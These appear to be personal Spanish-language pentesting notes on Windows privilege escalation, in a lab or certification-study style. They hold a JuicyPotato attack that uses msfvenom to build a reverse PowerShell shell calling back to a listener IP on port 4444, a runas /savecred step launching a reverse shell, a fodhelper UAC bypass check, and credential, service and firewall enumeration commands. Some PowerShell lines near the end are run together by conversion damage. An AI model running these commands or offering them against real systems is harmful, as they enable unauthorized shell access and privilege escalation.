 # Windows

***\- Identificar permisos del usuario***
whoami /priv
whoami /all
·· Juicypotatoes ··
se carga el reverse shell .bat
msfvenom -p cmd/windows/reverse\_powershell lhost=192.168.119.230 lport=4444 > rs.bat
se descarga y se carga el exploit en la maquina
JPo.exe -t \* -p rs.bat -l 3334 -c {69AD4AEE-51BE-439b-A92C-86AE490E8B30}
anyes de ejecutar se tiene que abrir un sudo rlwrap nc -lnvp 4444

##### 

***\- Enumerando version OS***
systeminfo \| findstr /B /C:"Host Name" /C:"OS Name" /C:"OS Version" /C:"System Type" /C:"Network Card\(s\)" /C:"Hotfix\(s\)"
**\- Enumerando procesos en ejecucion**
tasklist /SVC
**\- Info de usuario**
net user USUARIO
net localgroup administrators
**\- ver conexiones activas**
netstat -ano
**\- enumerando reglas de FW**
netsh advfirewall show currentprofile
netsh advfirewall firewall show rule name=all
**\- enumerando jobs**
schtasks /query /fo LIST /v
**\- Enumerando credenciales almacenadas**
cmdkey /list
runas /savecred /user:admin C:\\PrivEsc\\reverse.exe
**enumerando aplicaciones instaladas**
wmic product get name, version, vendor or wmic qfe get Caption, Description, HotFixID, InstalledOn
**\- bypass UAC**
sigcheck.exe -a -m C:\\Windows\\System32\\fodhelper.exe
--Verificar que ---
**<requestedExecutionLevel**
**level="requireAdministrator"**
**/>**
\<autoElevate><strong>true</strong>\</autoElevate>

\*<em>\- Ver que servicios se pueden subir manualmente</em>
cmd\.exe /c sc queryex state=all type=serviceGet\-Service \| findstr \-i "manual"gwmi \-class Win32\_Service \-Property Name\, DisplayName\, PathName\, StartMode \| Where \{$\_\.PathName \-notlike "C:\\Windows" \-and $<em>\.PathName \-notlike '"\*'\} \| select PathName\,DisplayName\,Namegwmi \-class Win32\_Service \-Property Name\, DisplayName\, PathName\, StartMode \| Where \{$</em>\.StartMode \-eq "manual"\} \| select PathName\,DisplayName\,Name
reg query HKEY\_LOCAL\_MACHINE\\SYSTEM\\CurrentControlSet\\services\\seclogon
confirma si el servicio de seclogon es manual "cmd.exe /c sc qc seclogon"
cmd.exe /c sc sdshow seclogon RP=start service / AU = ALL users
